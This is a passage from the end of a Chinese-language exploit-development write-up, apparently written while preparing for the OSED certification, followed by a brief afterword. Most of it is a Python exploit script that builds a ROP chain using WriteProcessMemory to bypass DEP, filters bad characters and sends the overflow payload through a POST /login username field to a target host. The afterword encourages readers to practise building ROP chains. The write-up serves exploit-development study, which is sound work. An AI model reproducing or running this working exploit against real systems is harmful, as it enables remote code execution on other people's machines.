        junk = b'A' * (crash_offset-len(wpm))
        
        print("[+] Save ESP Address")
        eip = pack("<L",0x10154112) # push esp ; inc ecx ; adc eax, 0x08468B10 ; pop esi ; ret ; 
        rop = b"A" * 4 # Why?
        
        print("[+] Get skeleton of WPM Address & put into edx")
        rop += pack("<L",0x100656f7) # mov eax, esi ; pop esi ; ret ;
        rop += pack("<L",0x72727272) # GARBAGE for esi
        rop += pack("<L",0x10128fde) # pop ebp ; ret ; (1 found)
        rop += pack("<L",0xFFFFFFDC) # -36
        rop += pack("<L",0x100fcd71) # add eax, ebp ; dec ecx ; ret ; (1 found)
        rop += pack("<L",0x100cb4d4) # xchg eax, edx ; ret ; (1 found)
        
        print("[+] Put GetLastErrorStub-WriteProcessMemoryStub into ebp")
        rop += pack("<L",0x1002f729) # pop eax ; ret ;
        rop += pack("<L",0xfffe0560) # -129696
        rop += pack("<L",0x100c1586) # neg eax ; ret ;
        rop += pack("<L",0x100cdc7a) # xchg eax, ebp ; ret ;
        
        print("[+] Put WPM Address into skeleton")
        rop += pack("<L",0x1002f729) # pop eax ; ret ;
        rop += pack("<L",0x10168040) # GetLastErrorStub
        rop += pack("<L",0x1014dc4c) # mov eax,  [eax] ; ret ;
        rop += pack("<L",0x100fcd71) # add eax, ebp ; dec ecx ; ret ;
        rop += pack("<L",0x1012d24e) # mov  [edx], eax ; ret ;
        
        print("[+] Move edx to skeleton of lpBuffer")
        rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
        rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
        rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
        rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
        rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
        rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
        rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
        rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
        rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
        rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
        rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
        rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
        rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
        rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
        rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
        rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
        
        print("[+] Put shell code address to skeleton of lpBuffer")
        rop += pack("<L",0x1002f729) # pop eax ; ret ;
        rop += pack("<L",0xffffff24) # -188
        rop += pack("<L",0x100c1586) # neg eax ; ret ;
        rop += pack("<L",0x1003f9f9) # add eax, edx ; retn 0x0004 ;
        rop += pack("<L",0x1012d24e) # mov  [edx], eax ; ret ;
        rop += pack("<L",0x41414141) # retn 0x0004 要跳過的垃圾

        print("[+] Move edx to skeleton of nSize")
        rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
        rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
        rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
        rop += pack("<L",0x100bb1f4) # inc edx ; ret ;
        
        print("[+] Put shell code size to skeleton of nSize")
        rop += pack("<L",0x1002f729) # pop eax ; ret ;
        rop += pack("<L",0xfffffd44) # 700
        rop += pack("<L",0x100c1586) # neg eax ; ret ;
        rop += pack("<L",0x1012d24e) # mov  [edx], eax ; ret ;
        
        print("[+] Set esp to WPM")
        rop += pack("<L",0x1002f729) # pop eax ; ret ;
        rop += pack("<L",0xffffffec) # -0x14
        rop += pack("<L",0x1003f9f9) # add eax, edx ; retn 0x0004 ;
        rop += pack("<L",0x101394a9) # xchg eax, esp ; ret ;
        rop += pack("<L",0x41414141) # retn 0x0004 要跳過的垃圾

        badchars = [0x00, 0x0a, 0x0d, 0x25, 0x26, 0x2b, 0x3d]
        if any(byte in badchars for byte in rop):
            print("ROP chain contains bad characters!")
            exit(1) 

        payload = junk + wpm + eip + rop + shellcode

        content = b"username=" + payload + b"&password=A"
        buffer = b"POST /login HTTP/1.1\r\n"
        buffer += b"Host: " + server.encode() + b"\r\n"
        buffer += b"Content-Type: application/x-www-form-urlencoded\r\n"
        buffer += b"Content-Length: "+ str(len(content)).encode() + b"\r\n"
        buffer += b"\r\n"
        buffer += content

        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((server, port))
            s.send(buffer)
            response = s.recv(1024)
            s.close()
            print(f"[*] Malicious payload sent, received response: {response}")
    except Exception as e:
        print(e)

if __name__ == '__main__':
    exploit()
```

---
## 🦉0x600 後記

非常恭喜你看完了整份 WriteUp，我也要提前恭喜你疊出了自己的第一個能夠 bypass DEP 的 ROP。接下來你需要做的就是不斷練習，直到你能夠熟練的完成以上流程。這份 WriteUp 是我在考取 OSED 前撰寫的，希望當你看到這裡的時候，我的 OSED 證照已經考過了。但總之，完成這一題 ROP 花了我實打實的 17 個小時。但隨著後面幾次練習，我已經能夠在 6 小時內疊出 ROP。儘管相比於真正的 pwner 可能還有所不足，但我想告訴你的是，當你成功疊出了第一個 ROP，透過練習，你就能真正的掌握並疊出第二個與第三個 ROP。不管你只是想學習，或是跟我一樣正在準備 OSED，都祝你能夠順利地學會 ROP。


